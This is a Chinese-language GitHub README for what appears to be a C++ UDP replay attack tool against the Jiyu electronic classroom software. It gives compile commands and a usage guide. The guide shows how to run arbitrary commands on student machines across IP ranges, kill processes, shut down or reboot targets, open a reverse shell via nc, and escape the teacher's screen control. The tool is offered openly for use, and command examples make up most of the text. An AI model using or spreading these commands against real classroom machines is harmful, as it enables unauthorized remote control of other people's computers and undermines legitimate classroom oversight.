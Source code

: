 # Jiyu-UDP-Attack-Cpp
使用 C++ 编写的 UDP 重放攻击脚本，用于极域电子教室。

English document: [README.md](https://github.com/pbw-Kevin/Jiyu-UDP-Attack-Cpp/blob/main/README.md)

## 编译
要求的 C++ 版本：C++14

编译命令：

### MSVC
```bash
cl main.cpp /std:c++14 /Fe:main.exe
```

### GCC / MinGW (On Windows)
```bash
g++ main.cpp -o main.exe -std=c++14 -lws2_32
```

### GCC / MinGW (On Linux)
```bash
g++ main.cpp -o main -std=c++14
```

当在 Windows 平台上使用 GCC / MinGW 编译器时注意：  
确保在引用库的搜索目录中包含了 Windows 相关的程序库。  
不要忘记添加编译参数 `-lws2_32`。如果不使用命令行编译，请在 IDE 的编译选项中加入相应参数。

## 使用方法
通过运行程序或调用如下命令启用用户界面：
```bash
main
```

或者使用命令行调用：
```bash
main [-h(--help) |
  [-ip <IP>] [-p <Port>] [-msg <Message> | -c <Command>]
  [-l <Loop Count>] [-t <Loop Time Interval>]
  [-e <Extra Option>] [-ncport <NC Port>]]
```

参数列表：
| 参数 | 描述 | 默认值 |
| -------- | ----------- | ------- |
| `-h(--help)` | 显示帮助文本。 | |
| `-ip <IP>` | 指定目标机的 IP。 | |
| `-p <Port>` | 指定监听的端口。 | 4705 |
| `-msg <Message>` | 指定要发送的信息。 | |
| `-c <Command>` | 在目标机上运行指定命令。 | |
| `-e <Extra Option>` | 加载额外选项。 | |
| `-l <Loop Count>` | 指定命令的循环次数。 | 1
| `-c <Loop Time Interval>` | 指定两次循环直接的时间间隔，单位为秒。 | 22 |
| `-ncport <NC Port>` | 指定 `nc` 命令的监听端口。 | 8888 |

在 `-e` 参数的 `<Extra Option>` 选项中，可用的选项有：
| 选项 | 描述 |
| ------ | ----------- |
| `r` | 重启目标机 |
| `s` | 关闭目标机 |
| `g` | 获取当前的 IP 地址和学生端监听的端口。 |
| `nc` | 反弹 Shell。目标机需要能访问互联网。在退出时可使用 `exit` 命令。 |
| `break` | 脱离屏幕控制。需要以管理员身份运行程序。 |
| `continue` | 恢复屏幕控制。 |

在 `-ip` 参数的 `<IP>` 中，可用的 IP 有：
- 一个独立的 IP。例子： `192.168.1.1`
- 一个 IP 段，以 `/24` 结尾。例子：`1892.168.1.1/24`
- 一个 IP 段，用 `-` 表示。例子： `192.168.1.2-10`  
注意：  
只有 IP 的最后一个数字可以成段。  
这是非法的： `192.168.1-80.1`

### 命令例子
1. 获取当前的 IP 地址和学生端监听的端口

```bash  
main -e g
```

2. 脱离屏幕控制

需要管理员权限，主要为了 MpsSvc。
```bash
main -e break
```

3. 恢复屏幕控制

```bash
main -e continue
```

4. 发送消息

给 IP 为 `192.168.1.1` 的目标机发送消息“Hello!”：
```bash
main -ip 192.168.1.1 -msg "Hello!"
```

如果学生端监听的端口是 **4605**，使用参数 `-p <Port>` 来指定端口号。向 IP 为 `192.168.1.12` 的目标机发送消息“Hello!”：
```bash
main -ip 192.168.1.12 -p 4605 -msg "Hello!"
```

5. 运行命令

在 IP 为 `192.168.1.12` 到 `192.168.1.137` 的目标机上弹出计算器：
```bash
main -ip 192.168.1.12-137 -c calc.exe
```

如果要运行的命令中含有空格，使用引号包裹：
```bash
main -ip 192.168.1.1 -c "taskkill /f /im chrome.exe"
```

6. 反弹 Shell

目标机的 IP 应当为**某个IP**，不能批量反弹，且目标机需要能访问互联网。
```bash
main -ip 192.168.1.1 -e nc
```

7. 关机重启

关机：
```bash
main 192.168.1.1 -e s
```

重启：
```bash
main 192.168.1.1 -e r
```

8. 循环执行

向 IP 为 `192.168.1.0` 到 `192.168.1.255` 的目标机发送消息“Hello!”，总共 3 次，每两次之间间隔 50 秒：
```bash
main -ip 192.168.1.1/24 -msg "Hello!" -l 3 -t 50
```

## 关于
受到了 [ht0Ruial/Jiyu_udp_attack](https://github.com/ht0Ruial/Jiyu_udp_attack) 项目的启发，于是用 C++ 重写了一个。

## 许可证
[MIT 许可证](https://github.com/pbw-Kevin/Jiyu-UDP-Attack-Cpp/blob/main/LICENSE)
